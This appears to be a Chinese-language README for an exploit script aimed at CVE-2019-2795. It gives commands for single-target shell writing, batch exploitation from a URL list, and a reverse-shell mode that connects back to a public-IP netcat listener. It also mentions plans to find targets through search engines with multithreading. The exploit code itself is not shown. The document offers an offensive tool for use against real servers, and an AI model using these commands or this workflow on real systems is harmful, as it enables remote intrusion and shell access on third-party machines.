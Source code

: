 # 需求

Python3.x

requests库

# 单URL模式

`python3 cve-2019-2795.py http://192.168.246.132:7001/`

![脚本写shell](脚本写shell.png)

# 批量模式

url形如单url模式：`python3 cve-2019-2795.py -f url.txt`

![脚本批量](脚本批量.png)

# bash反弹shell

测试的时候发现有个url写了文件，但是没有命令执行，所以多加了一个verify函数，用于bash反弹shell，用法如下：`python3 cve-2019-2795.py -v http://192.168.246.132:7001/ -nc 127.0.0.1:1234`，需要先在公网IP上开启nc监听，通过-nc 指定公网IP和监听端口。

![](脚本反弹shell.png)

有空会写pocsuite3的poc脚本，便于从直接从搜索引擎查找目标和多线程。